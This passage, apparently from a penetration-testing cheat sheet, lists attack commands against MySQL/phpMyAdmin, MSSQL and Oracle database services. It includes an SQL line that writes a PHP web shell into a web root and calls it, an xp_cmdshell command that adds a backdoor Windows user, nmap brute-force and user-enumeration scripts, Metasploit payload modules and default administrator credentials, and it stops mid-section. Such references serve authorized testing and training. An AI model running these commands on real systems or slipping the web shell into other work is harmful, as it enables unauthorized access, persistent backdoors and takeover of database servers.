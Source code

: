 ```sql
update TABLENAME set PASSWORDFIELD = 'NEWHASH' where USERNAMEFIELD = 'USERNAME';
```
#### PHPMyAdmin
Default User: root\
Default Password: (none)\
Create a new table, then go to the SQL tab
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\command.php";`
http://TARGTEIP/phpmyadmin/command.php?cmd=ipconfig
```
## MSSQL-1433
Default username : sa
#### Nmap
```bash
nmap -sV -Pn -p 1433 --script ms-sql-brute --script-args
userdb=users.txt,passdb=passwords.txt TARGETIP
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args
mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net usertester Tester123! /add" TARGETIP
```
#### Sqsh.
[https://sourceforge.net/projects/sqsh/](https://sourceforge.net/projects/sqsh/)\
You can use sqsh to interact with MSSQL databases.\
Install the following:
```bash
apt-get install freetds
apt-get install sqsh
```
Edit /etc/freetds/freetds.conf
```bash
[SERVERNAME]
host = 10.11.12.13
port = 1433
tds version = 8.0
```
Edit .sqshrc\
`\set style=vert`\
Connect to the database:\
```bash
sqsh -S SERVERNAME -U USER -P PASSWORD
>exec xp_cmdshell 'whoami'
>go
```
Metasploit:
```bash
use auxiliary/scanner/mssql/mssql_login
use exploit/windows/mssql/mssql_payload
```
## Oracle-1521
#### Nmap:
```bash
nmap -sV -Pn -p 1521 --script=oracle-sid-brute TARGETIP
nmap -sV -Pn -p 1521 --script=oracle-enum-users --script-args sid=ORCL,userdb=users.txt TARGETIP
```
#### Connect to Oracle from command line:
```bash
C:\>sqlplus / as sysdba
[will prompt for password]
C:\>sqlplus
[will prompt for user and password]
```
#### Oracle Default Accounts:
